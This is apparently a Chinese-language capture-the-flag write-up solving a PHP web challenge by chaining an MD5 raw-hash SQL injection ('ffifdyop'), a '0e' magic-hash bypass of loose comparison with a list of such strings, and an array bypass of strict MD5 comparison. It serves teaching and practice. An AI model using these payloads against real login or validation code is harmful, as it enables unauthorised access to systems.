 上存數據 -> burosuite抓包分析 ->

```https
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sat, 01 Jul 2023 03:59:41 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.3.22
hint: select * from 'admin' where password=md5($pass,true)
Content-Length: 3107
```

有hint ->`select * from 'admin' where password` -> `password=ffifdyop` -> `ffifdyop`在md5後會是`'or'6<乱码>`

變成 -> `select * from 'admin' where password= 'or'6<乱码>` -> 恆等TRUE

->到了level91.php -> 抓包分析

```php
<!--
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    header('Location: levell14.php');
-->

```

要a不等於b，但在md5後要是同一樣 （弱类型比较(==)）

payload:`?a=QNKCDZO&b=240610708` -> 使用0e绕过

```
md5-0e绕过
------
    QNKCDZO
    240610708
    byGcY
    sonZ7y
    aabg7XSs
    aabC9RqS
    s878926199a
    s155964671a
    s214587387a
    s1091221200a
------
這些數值在md5後都是0e開頭，而0e會被转换为0
0==0 //TRUE
```

得到新的php 
```php
 <?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
?>
```
這個在`param1`要和`param2`不同但md5後要一樣  (强类型比较(===),判断内容的基础上,还会判断类型是否相同)

-> 數組绕过 -> md5 不能用於數組

```
payload:
----------
param1[]=1
param2[]=2
----------
NULL=NULL //TRUE
```
由於是POST請求 -> 上傳`param1[]=1&param2[]=2` -> 拿到flag

|知識點||
|----|-----|
|md5|MD5訊息摘要演算法，一種被廣泛使用的密碼雜湊函式，可以產生出一個128位元的雜湊值，用於確保資訊傳輸完整一致。|
|弱类型比较(==)|只判断内容是否相等,如果是字符串类型,则转换成数值型后进行判断|
|强类型比较(===)|判断内容的基础上,还会判断类型是否相同|
|MD5绕过|0e绕过,數組绕过,Md5碰撞,MD5-SQL注入|
